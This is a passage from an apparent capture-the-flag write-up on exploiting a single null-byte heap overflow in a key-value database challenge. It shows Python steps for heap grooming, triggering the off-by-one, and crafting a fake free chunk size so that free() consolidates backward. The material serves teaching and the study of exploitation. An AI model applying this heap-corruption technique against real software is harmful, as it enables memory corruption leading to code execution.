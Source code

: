 ```python
# Build a wall against the wilderness.
PUT(b"_" * 0x80, b"Y" * 0x8b0)
PUT(b"wall", b"W" * 0x20, trim=True)
DEL(b"_" * 0x80)
```

[![temporarily fill the created hole][11]][8]
Build a wall against the wilderness ([full exploit visualization here][8]).

[8]: /public/res/single-null-byte-heap-overflow/exploit.html
[11]: /public/res/single-null-byte-heap-overflow/build_wall.png

### The plan.

Now the plan is to reproduce our crashing test-case in this space and we'll be
able to make our fake chunk point to the empty space we made before (after we'll
have deleted the temporary fillings.) We'll end up with a huge fake free chunk
covering the data of the first allocated key (the yellow block) and whatever we
put after that if we decide to make the free chunk big enough.

```python
# Now create the setup where we can off-by-one.
PUT(b"a" * 247, b"A" * 123)
PUT(b"a" * 247, b"A" * 240)
```

[![trigger corruption stage 1][12]][8]

[8]: /public/res/single-null-byte-heap-overflow/exploit.html
[12]: /public/res/single-null-byte-heap-overflow/corrupt_stage1.png

> **Put:** Node, Key, Val; **Put again!** Node, (same) Key, Val.

```python
# This computation is the size of our fake free chunk.
# It should make it start at the beginning of the filled up hole we control;
fake_sz = 0x100 + 0x40 + 0x190 + 0x40 + 0x110 + 0x1a0
craftedkey = struct.pack("Q", fake_sz).rjust(248, b"b")
PUT(craftedkey, b"B" * 245)
```

[![trigger corruption stage 3][13]][8]

[8]: /public/res/single-null-byte-heap-overflow/exploit.html
[13]: /public/res/single-null-byte-heap-overflow/corrupt_stage2.png

> **Put:** Node, (different) Key. (Val not shown, it's to the right.)

**This triggers the corruption.** This time it's right where we want it. The
key, the block that is re-allocated in the last screenshot above ends up at
`0x555555758938` and overwrites the first byte of the header of the data block
right after it at `0x555555758a38`. The effect is we clear the flags that were
stored there and in particular the `PREV_INUSE` flag. We effectively mark the
previous block as free and `free()` will attempt to merge the block we are
corrupting with its predecessor when we free it. It will find the beginning of
the previous block by looking at the size stored at the end of a free block,
right in front of the header of the block being freed. We control this size and
you can see the computation in the python code above.

Now let's delete the temporary padding we setup earlier and take a look at the
state of the full heap when that's done:

```python
# Clear the hole we made before.
DEL(b'pad1')
DEL(b'pad2')
```


[1]: http://packetstorm.sigterm.no/papers/attack/MallocMaleficarum.txt
[2]: http://github.com/ctfs/write-ups-2015/tree/master/plaidctf-2015/pwnable/plaiddb
[3]: http://github.com/wapiflapi/villoc
[4]: http://googleprojectzero.blogspot.fr/2014/08/the-poisoned-nul-byte-2014-edition.html
[3]: http://github.com/wapiflapi/villoc
[5]: /2014/04/30/getting-a-shell-on-fruits-bkpctf-2014/
[6]: /public/res/single-null-byte-heap-overflow/fuzed_crash.html
[7]: /public/res/single-null-byte-heap-overflow/fuzed_crash.png
[4]: http://googleprojectzero.blogspot.fr/2014/08/the-poisoned-nul-byte-2014-edition.html
[9]: /public/res/single-null-byte-heap-overflow/create_hole.png
[10]: /public/res/single-null-byte-heap-overflow/fill_hole.png
[14]: /public/res/single-null-byte-heap-overflow/corrupt_after.png
[15]: /public/res/single-null-byte-heap-overflow/corrupt_cleared.png
[16]: /public/res/single-null-byte-heap-overflow/leak.png
[19]: http://blog.frizn.fr/pctf-2015/pwn-550-plaiddb
[17]: /public/res/single-null-byte-heap-overflow/overwrite.png
[18]: /public/res/single-null-byte-heap-overflow/overwrite_followup.png
[1]: http://packetstorm.sigterm.no/papers/attack/MallocMaleficarum.txt
[2]: http://github.com/ctfs/write-ups-2015/tree/master/plaidctf-2015/pwnable/plaiddb
[3]: http://github.com/wapiflapi/villoc
[4]: http://googleprojectzero.blogspot.fr/2014/08/the-poisoned-nul-byte-2014-edition.html
[5]: /2014/04/30/getting-a-shell-on-fruits-bkpctf-2014/
[6]: /public/res/single-null-byte-heap-overflow/fuzed_crash.html
[7]: /public/res/single-null-byte-heap-overflow/fuzed_crash.png
[9]: /public/res/single-null-byte-heap-overflow/create_hole.png
[10]: /public/res/single-null-byte-heap-overflow/fill_hole.png
[14]: /public/res/single-null-byte-heap-overflow/corrupt_after.png
[15]: /public/res/single-null-byte-heap-overflow/corrupt_cleared.png
[16]: /public/res/single-null-byte-heap-overflow/leak.png
[17]: /public/res/single-null-byte-heap-overflow/overwrite.png
[18]: /public/res/single-null-byte-heap-overflow/overwrite_followup.png